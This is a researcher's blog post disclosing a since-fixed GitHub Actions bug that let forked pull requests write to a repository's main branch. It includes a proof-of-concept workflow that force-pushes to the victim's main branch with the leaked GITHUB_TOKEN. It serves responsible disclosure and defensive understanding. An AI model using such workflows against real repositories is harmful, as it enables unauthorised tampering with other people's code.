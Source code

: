 ```yaml
---
title: "Gain write permission of repositories with a bug in GitHub Actions"
date: 2021-04-02T22:28:00+09:00
url: /posts/2021-04-02-improper-access-control-github-workflow/
type: post
---
```


GitHub Actions is a useful feature for the jobs, for example, building, publishing.

I found a bug which allows unauthorized users to edit the main branch of the repositories in GitHub.
Repositories which enables GitHub Actions are affected but fortunately, the bug exists in a brief window from 2021/02/04 18:42 UTC to 2021/02/05 13:35 UTC.
Also, protected branch is safe :)

---

Recently, I saw the case that some users abused the GitHub Actions for the DDoS.

[GitHub Actionsを使ったDDoSに巻き込まれた - 私が歌川です](https://blog.utgw.net/entry/2021/02/05/133642)

They forked many repositories, added a workflow file which runs some malicious program on pull request event, and created pull requests, so that their programs run in target repositories.
I'm not sure if that is correct but I guess they sent those pull requests to bypass [the resource limits on GitHub Actions](https://docs.github.com/en/actions/reference/usage-limits-billing-and-administration).
If the resource is shared for the pull request jobs, how about the `GITHUB_TOKEN`?

The `GITHUB_TOKEN` allows the workflow to commit a code, create packages, and so on.
Therefore, if the `GITHUB_TOKEN` for the target repository is shared for the jobs triggered by pull request, we gain write permission of the respository without authorization!
So I tested.

---

The test was simple. Just send a pull request and wait.

1. Victim prepares a repository which has random workflow file in `.github/workflows`. (Make sure the attacker has no permission to commit the repository.)

2. Attacker forks the repository and replace the workflow file to the following one. This workflows edit main branch after pull request event.

```
on: [pull_request]

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2

      - name: Create local changes and commit
        run: |
          echo test > newfile
          git add newfile
          git config --local user.email "namatyage@gmail.com"
          git config --local user.name "tyage"
          git commit -m "Add changes" -a
          git remote set-url origin https://x-access-token:${{ secrets.GITHUB_TOKEN }}@github.com/${GITHUB_REPOSITORY}
          git push --force origin HEAD:refs/heads/main
```

3. Attacker sends a pull request to the parent repository and waits for a while.

Surprisingly, the test was succeeded.
After the workflow finishes, victim repository has been modified!

(Send pull request to `tyage-test/repo-with-workflow`)
![](screenshot1.png)

(`tyage-test/repo-with-workflow` was polluted)
![](screenshot2.png)

I reported the bug to GitHub, and they fixed the bug quickly :)

--- 

Another short story:

Interestingly, a one day before I found the bug, another people had found a similar bug.

[Stealing arbitrary GitHub Actions secrets | Teddy Katz’s Blog](https://blog.teddykatz.com/2021/03/17/github-actions-write-access.html)

Though this is a independent bug, the bug also exists in GitHub Actions and is triggered by crafted pull request.

---

## Timeline

- **2021/02/04 18:42 UTC** The bug was born
- **2021/02/05 12:09 UTC** I reported this issue to [GitHub Bug Bounty Program](https://hackerone.com/github)
- **2021/02/05 13:35 UTC** The bug was dead
- **2021/02/05 17:58 UTC** I received a message that the issues was fixed
- **2021/03/31 13:14 UTC** GitHub awarded a $25,000 bounty